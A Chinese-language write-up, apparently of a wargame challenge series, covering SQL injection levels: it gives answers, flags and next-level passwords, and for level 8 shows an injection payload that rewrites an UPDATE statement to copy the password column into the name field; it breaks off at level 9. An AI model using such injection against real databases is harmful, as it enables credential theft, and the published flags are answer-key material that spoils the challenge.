 

**注意**

1.Max retries exceeded with URL

访问太频繁会`requests` 包会报错上述错误。可以根据 `requests.exceptions.ConnectionError` 来判断。
这时候可以降低访问速度，即休眠几秒钟。还有就是当发送HTTP请求包的时候，让服务器断开连接。在请求包的 `headers` 中加入 ` {"Connection": "close"}` 。

2.校对规则 `collation`

校对规则是怎么回事呢？它是一组规则，负责决定某一字符集下的字符进行比较和排序的结果。

比如说，有latin1字符集中的字母A和a，我们需要它们在比较的时候相等，那么，我们可以使用字符集校对规则 latin1_general_ci；这种校对规则在比较和排序的时候不区分大小写；如果我们需要他们在比较的时候不等呢？也很简单，我们可以使用字符集校对规则latin1_bin;这种校对规则会以二进制的方式对字符进行比较，很明显，a和A的二进制编码不同，比较的结果就是不等。

可以通过 `show collation` 来查看数据库对校对规则的支持。


答案是 `TestUserforg00gle`

> User correct.
> You can raise your wechall.net score with this flag: 970cecc0355ed85306588a1a01db4d80
> The password for the next level is: no_pernel_kanic_on_the_titanic

## level 8

点击 `edit` ，可以更改用户的信息。

测试注入点，在 `email` 处输入 `'` 得到报错信息。

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the > right syntax to use near '12345', age = '25' WHERE id = 1' at line 3

在 `email` 的内容前面输入 `'`，得到更精确的信息。

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the > right syntax to use near 'hans@localhost'', icq = '12345', age = '25' WHERE id = 1' at line 3 

可以确定这是一条更新语句。
猜测sql语句为：
```
update user set email='$email',icq='$icq',age='$age' where id=1 
```
可以利用 `update` 将 `password`更新到 `name` 字段，注意 `'`的闭合。


update user set email='hans@localhost`',name=password,icq='`',icq='12345',age='25' where id=1 



> You can raise your wechall.net score with this flag: 9ea04c5d4f90dae92c396cf7a6787715
> The password for the next level is: cybercyber_vuln

## level 9

这题输入`autor=123`、 `title=123`、 `text=123` 会在数据库中插入此条信息。

分别测试三个字段，发现注入点在 `text` 字段。报错信息为：
